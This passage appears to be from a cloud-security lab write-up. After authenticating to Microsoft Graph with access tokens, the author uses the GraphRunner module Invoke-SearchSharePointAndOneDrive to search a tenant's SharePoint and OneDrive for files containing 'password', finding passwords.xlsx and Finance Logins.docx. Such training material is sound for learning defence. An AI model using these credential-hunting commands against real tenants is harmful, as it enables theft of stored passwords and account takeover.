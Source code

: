```
aud                 : https://graph.microsoft.com
iss                 : https://sts.windows.net/2590ccef-687d-493b-ae8d-441cbab63a72/
iat                 : 1756827172
nbf                 : 1756827172
exp                 : 1756832807
<SNIP>
[*] Successful authentication. Access and refresh tokens have been written to the global $tokens variable. To use them with other GraphRunner modules use the Tokens flag (Example. Invoke-DumpApps -Tokens $tokens)
[!] Your access token is set to expire on: 09/02/2025 23:06:47  
```

We can start with `Invoke-SearchSharePointAndOneDrive`. To see examples for any module with the `Get-Help` followed by the module name and the `-examples` parameter
```
└─PS> Get-Help Invoke-SearchSharePointAndOneDrive -examples                                                                                                                                                                                 

NAME
    Invoke-SearchSharePointAndOneDrive
    
SYNOPSIS
    This module uses the Graph search API to search for specific terms in all SharePoint and OneDrive drives available to the logged in user. It prompts the user which files they want to download.   
    Author: Beau Bullock (@dafthack)
    License: MIT
    Required Dependencies: None
    Optional Dependencies: None
    
    
    -------------------------- EXAMPLE 1 --------------------------
    
    C:\PS>Invoke-SearchSharePointAndOneDrive -Tokens $tokens -SearchTerm 'password filetype:xlsx'
    -----------
    This will search through the all SharePoint and OneDrive drives accessible to the current user for the term password.

```

Let's look for file containing the string `password`
```
└─PS> Invoke-SearchSharePointAndOneDrive -Tokens $tokens -SearchTerm 'password'                                                                                                                                                             
[*] Using the provided access tokens.
[*] Found 2 matches for search term password                                                                                                                                                                                                
Result [0]                                                                                                                                                                                                                                  
File Name: passwords.xlsx
Location: https://iancloudpwned.sharepoint.com/Shared Documents/passwords.xlsx
Created Date: 03/27/2024 00:13:10
Last Modified Date: 04/24/2025 14:49:38
Size: 14.78 KB
File Preview: <ddd/><c0>Password</c0> Azure lindsey_adm <REDACTED> Dev Env r&d <REDACTED> Lindsey.<ddd/>
DriveID & Item ID: b!bT4vhymq0UWW7LvQnMzGLIicHuknVeZGkE3-8tuCtaeO-nKW9TKYT7NHHw0ABSux\:017K7QPLPAKVIRHIULQ5BK6A3KQTCK2SCD
================================================================================
Result [1]
File Name: Finance Logins.docx
```